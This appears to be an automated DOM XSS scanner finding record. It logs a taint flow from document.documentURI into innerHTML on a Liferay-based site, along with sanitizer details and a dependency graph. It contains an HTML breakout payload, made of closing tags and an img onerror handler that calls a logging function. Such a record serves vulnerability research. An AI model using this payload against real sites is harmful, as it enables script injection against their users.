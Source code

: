 // Finding: 162d1aa8-c510-48a7-a2ed-e688dbf57cca
// Finding.url: https://www.example431.com/web/investigacion/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('9c5a79ff53044de78b9ae867b56a6181')><!--/*
// Finding.parentloc: https://www.example431.com/web/investigacion/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('9c5a79ff53044de78b9ae867b56a6181')><!--/*
// Finding.domain: www.example431.com
// Finding.base_domain: example431.com
// Finding.source: document.documentURI
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: L.trim<
// Sanitizer.location: https://www.example431.com/combo?browserId=firefox&minifierType=js&languageId=es_ES&b=7201&t=1611767026463&/o/frontend-js-web/loader/config.js&/o/frontend-js-web/loader/loader.js&/o/frontend-js-web/aui/aui/aui.js&/o/frontend-js-web/aui/aui-base-html5-shiv/aui-base-html5-shiv.js&/o/frontend-js-web/liferay/browser_selectors.js&/o/frontend-js-web/liferay/modules.js&/o/frontend-js-web/liferay/aui_sandbox.js&/o/frontend-js-web/misc/svg4everybody.js&/o/frontend-js-web/aui/arraylist-add/arraylist-add.js&/o/frontend-js-web/aui/arraylist-filter/arraylist-filter.js&/o/frontend-js-web/aui/arraylist/arraylist.js&/o/frontend-js-web/aui/array-extras/array-extras.js&/o/frontend-js-web/aui/array-invoke/array-invoke.js&/o/frontend-js-web/aui/attribute-base/attribute-base.js&/o/frontend-js-web/aui/attribute-complex/attribute-complex.js&/o/frontend-js-web/aui/attribute-core/attribute-core.js&/o/frontend-js-web/aui/attribute-observable/attribute-observable.js&/o/frontend-js-web/aui/attribute-extras/attribute-extras.js&/o/frontend-js-web/aui/base-base/base-base.js&/o/frontend-js-web/aui/base-pluginhost/base-pluginhost.js&/o/frontend-js-web/aui/classnamemanager/classnamemanager.js&/o/frontend-js-web/aui/datatype-xml-format/datatype-xml-format.js&/o/frontend-js-web/aui/datatype-xml-parse/datatype-xml-parse.js&/o/frontend-js-web/aui/dom-base/dom-base.js&/o/frontend-js-web/aui/dom-core/dom-core.js&/o/frontend-js-web/aui/dom-screen/dom-screen.js&/o/frontend-js-web/aui/dom-style/dom-style.js&/o/frontend-js-web/aui/event-base/event-base.js&/o/frontend-js-web/aui/event-custom-base/event-custom-base.js&/o/frontend-js-web/aui/event-custom-complex/event-custom-complex.js&/o/frontend-js-web/aui/event-delegate/event-delegate.js&/o/frontend-js-web/aui/event-focus/event-focus.js&/o/frontend-js-web/aui/event-hover/event-hover.js&/o/frontend-js-web/aui/event-key/event-key.js&/o/frontend-js-web/aui/event-mouseenter/event-mouseenter.js&/o/frontend-js-web/aui/event-mousewheel/event-mousewheel.js - create:437:268
// Finding.begin: 9
// Finding.end: 45
// Finding.original_uuid: 0c17a20e-2c8b-47b7-b4e4-d1f5824d375b
// Finding.TwentyFiveMillionFlowsId: 1412884918
// Finding.script: https://www.example431.com/combo?browserId=firefox&minifierType=js&languageId=es_ES&b=7201&t=1611767026463&/o/frontend-js-web/loader/config.js&/o/frontend-js-web/loader/loader.js&/o/frontend-js-web/aui/aui/aui.js&/o/frontend-js-web/aui/aui-base-html5-shiv/aui-base-html5-shiv.js&/o/frontend-js-web/liferay/browser_selectors.js&/o/frontend-js-web/liferay/modules.js&/o/frontend-js-web/liferay/aui_sandbox.js&/o/frontend-js-web/misc/svg4everybody.js&/o/frontend-js-web/aui/arraylist-add/arraylist-add.js&/o/frontend-js-web/aui/arraylist-filter/arraylist-filter.js&/o/frontend-js-web/aui/arraylist/arraylist.js&/o/frontend-js-web/aui/array-extras/array-extras.js&/o/frontend-js-web/aui/array-invoke/array-invoke.js&/o/frontend-js-web/aui/attribute-base/attribute-base.js&/o/frontend-js-web/aui/attribute-complex/attribute-complex.js&/o/frontend-js-web/aui/attribute-core/attribute-core.js&/o/frontend-js-web/aui/attribute-observable/attribute-observable.js&/o/frontend-js-web/aui/attribute-extras/attribute-extras.js&/o/frontend-js-web/aui/base-base/base-base.js&/o/frontend-js-web/aui/base-pluginhost/base-pluginhost.js&/o/frontend-js-web/aui/classnamemanager/classnamemanager.js&/o/frontend-js-web/aui/datatype-xml-format/datatype-xml-format.js&/o/frontend-js-web/aui/datatype-xml-parse/datatype-xml-parse.js&/o/frontend-js-web/aui/dom-base/dom-base.js&/o/frontend-js-web/aui/dom-core/dom-core.js&/o/frontend-js-web/aui/dom-screen/dom-screen.js&/o/frontend-js-web/aui/dom-style/dom-style.js&/o/frontend-js-web/aui/event-base/event-base.js&/o/frontend-js-web/aui/event-custom-base/event-custom-base.js&/o/frontend-js-web/aui/event-custom-complex/event-custom-complex.js&/o/frontend-js-web/aui/event-delegate/event-delegate.js&/o/frontend-js-web/aui/event-focus/event-focus.js&/o/frontend-js-web/aui/event-hover/event-hover.js&/o/frontend-js-web/aui/event-key/event-key.js&/o/frontend-js-web/aui/event-mouseenter/event-mouseenter.js&/o/frontend-js-web/aui/event-mousewheel/event-mousewheel.js
// Finding.line: 436
// Exploit.uuid: 9c5a79ff-5304-4de7-8b9a-e867b56a6181
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 36
// Exploit.replace_begin_url: 36
// Exploit.replace_end_url: 36
// Exploit.replace_begin_param: 45
// Exploit.replace_end_param: 45
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1857750784
// DepGraph.sanitizer_hash: -1857750784

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /^[	-\r   ᠎ - \u2028\u2029  　﻿]+|[	-\r   ᠎ - \u2028\u2029  　﻿]+$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=box, label="Var: x"];
n6 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n5 -> n1;
n6 -> n5;
}